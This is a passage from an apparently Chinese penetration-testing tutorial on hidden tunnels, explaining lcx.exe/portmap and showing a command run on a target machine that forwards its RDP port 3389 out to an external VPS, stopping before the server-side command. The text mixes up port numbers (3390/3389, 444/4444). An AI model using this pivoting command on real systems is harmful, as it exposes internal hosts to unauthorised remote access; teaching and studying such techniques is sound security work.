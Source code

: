 windows为lcx.exe，linux为portmap。

一个正常的socket隧道必须具备两端：

一个服务端，监听一个端口，等待用户的连接。

一个客户端，通过传入服务端的IP地址和端口，才能主动与服务器连接。

1、内网端口转发
在目标机器上执行如下命令，将目标3390端口的所有数据转发到服务端VPS的444端口上：

```
lcx.exe -slave 服务端IP 4444 127.0.0.1 3389
```

![](/assets/img/隐藏通信隧道基础知识/24.png)

在Vps服务端执行如下命令，将本机的4444端口上监听的所有数据转发到本机的5555端口上：
